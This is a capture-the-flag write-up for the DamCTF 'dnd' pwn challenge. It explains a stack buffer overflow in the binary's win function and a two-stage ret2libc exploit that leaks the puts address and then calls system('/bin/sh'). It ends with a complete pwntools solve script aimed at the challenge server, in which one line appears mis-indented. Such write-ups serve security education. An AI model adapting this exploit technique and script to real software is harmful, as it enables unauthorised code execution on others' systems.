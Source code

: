from Dam_CTF

Solve:
Mitigations:
```
󰣇 dam_ctf/pwn/dnd_chall ❯ file dnd                                                                                                  
dnd: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=44872667ee2a19d1c8f314775e8e3018619c6d9a, for GNU/Linux 3.2.0, not stripped
󰣇 dam_ctf/pwn/dnd_chall ❯ checksec --file=dnd                                                                                       
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   209 Symbols	 No	0		1		dnd
```
this is dynamically linked, no canary , no pie but nx is enabled.

```
we got three files
1. dnd - binary file
2. libc.so.6 - libc file
3. ld-linux-x86-64.so.2 - linker file
```

So i thought of performing ret2libc attack , now lets gets started.

from the decompiled code:
```
void win(void)

{
  basic_ostream *pbVar1;
  char local_68 [32];
  basic_string local_48 [9];
  allocator local_21;
  allocator *local_20;
  
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "Congratulations! Minstrals will sing of your triumphs for millenia to co me."
                          );
  std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar1,std::endl<>);
  std::operator<<((basic_ostream *)std::cout,"What is your name, fierce warrior? ");
  fgets(local_68,0x100,stdin);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,"We will remember you forever, ");
  local_20 = &local_21;
                    /* try { // try from 004028eb to 004028ef has its CatchHandler @ 0040293c */
  std::__cxx11::basic_string<>::basic_string<>((basic_string<> *)local_48,local_68,&local_21);
                    /* try { // try from 004028fa to 0040290b has its CatchHandler @ 00402927 */
  pbVar1 = std::operator<<(pbVar1,local_48);
  std::basic_ostream<>::operator<<((basic_ostream<> *)pbVar1,std::endl<>);
  std::__cxx11::basic_string<>::~basic_string((basic_string<> *)local_48);
  std::__new_allocator<char>::~__new_allocator((__new_allocator<char> *)&local_21);
  return;
}
```

we can see that,in the win function there is buffer overflow. so with it we can control instruction execution, to go there we need to attack the monster that is coming on our way , and well we need to die.
just kidding.
after our health reaches below 0 , we can go to win function , and then we can play with the overflow...

then again to perform ret2libc attack , we need to defeat the ASLR , eventhough there is no pie , the libc address are randomised due the ASLR in our system , so some how we need to leak the libc address , then again i thought of leaking the puts address from the GOT entries.

our attack plan:
```
1. go to win function
2. buffer overflow - control ret 
3. leak the libc address and again go to main
4. then call the system with bin/sh.
```
then :
we can find the offset to be 104 with cyclic patterns. 

lets make our first payload,
```
payload = flat (
	cyclic(offset),
	ret,
	rdi_rbp,
	elf.got['puts'],
	0xdeadbeefdeadbeef,
	elf.plt['puts'],
	elf.sym['main']
)
```
this above payload leaks the libc address of the puts , so we can find the libc address of it.
how does the leak takes place here with the rdi gadget the puts@got is actually as argument for the put@plt , which call puts , it just prints the memory of the address it points to , here we send puts@got , so it will looks like , puts(puts@got) , so it will print the libc address.

to calculate the base address of the libc , we are actually sub the leaked libc with the puts libc offset. since the leaked libc is the puts libc address.
```
libc_base = libc_leak - libc.symbols['puts']
```

after leaking the libc address , we need to calculate the libc base to find the correct address of the system and the /bin/sh , to craft a syscall to get the shell.
second payload :
```
rdi = 0x000000000010f75b
pop_rdi = libc_base + rdi
payload = flat (
	cyclic(offset),
	ret,
	pop_rdi,
	binsh,
	system
	)
```
this will loads the address of the bin/sh in to rdi and then , make the system to call the shell.

in case of any mistake , do connect in discord: 0xhyder
Solve Script:
```
from pwn import *

elf = context.binary = ELF('./dnd')
libc = ELF('libc.so.6', checksec=False)
env = None
context.terminal = ['kitty', '-e']

gdbscript = '''
b*main
b*0x000000000040201a
b*0x0000000000402640
c
'''
ld_path = './ld-linux-x86-64.so.2'
libc_path = './libc.so.6'
argv = [ld_path, '--library-path', '.', elf.path]

if args.REMOTE:
	p = remote('dnd.chals.damctf.xyz',30813)
elif args.GDB:
	p = gdb.debug(argv, gdbscript=gdbscript, env=env)
else:
	p = process(argv, env=env)

def handle_attack_or_run():
	try:
		while True:
			line = p.recv(1024) # Adjust size as needed
			log.info(f"Received: {line.strip()}")
			if b'[a]ttack or [r]un' in line:
				p.sendline(b'a')
			elif b'fierce warrior' in line:
				log.success("Reached payload prompt!")
				break
			elif b'You lost!' in line:
				log.warning('Completed all five rounds.')
	except EOFError:
		log.error("EOF received. The process might have crashed.")
		p.close()
		exit()
	except Exception as e:
		log.error(f"Unexpected error: {e}")
		p.close()
		exit()
  
def send_payload():
	payload = flat (
	cyclic(offset),
	ret,
	rdi_rbp,
	elf.got['puts'],
	0xdeadbeefdeadbeef,
	elf.plt['puts'],
	elf.sym['main']
)
p.sendline(payload)

# ======================= Stage 1: Leak =======================
handle_attack_or_run()

ret = 0x000000000040201a
rdi_rbp = 0x0000000000402640
offset = 104

send_payload()
p.recvuntil(b'forever,')
leaked_line = p.recvuntil(b'#').strip()
leak = leaked_line[0x27:0x27+6]
libc_leak = u64(leak.ljust(8, b'\x00'))
log.success(f"[*] Leaked libc address: {hex(libc_leak)}")
libc_base = libc_leak - libc.symbols['puts']
log.success(f"[*] base libc address: {hex(libc_base)}")
binsh = next(libc.search(b'/bin/sh')) + libc_base
system = libc.symbols['system'] + libc_base
log.success(f"[*] binsh libc address: {hex(binsh)}")
log.success(f"[*] system libc address: {hex(system)}")

# ======================= Stage 2: Exploit=======================
handle_attack_or_run()

rdi = 0x000000000010f75b
pop_rdi = libc_base + rdi
payload = flat (
	cyclic(offset),
	ret,
	pop_rdi,
	binsh,
	system
)
p.sendline(payload)

p.interactive()
```
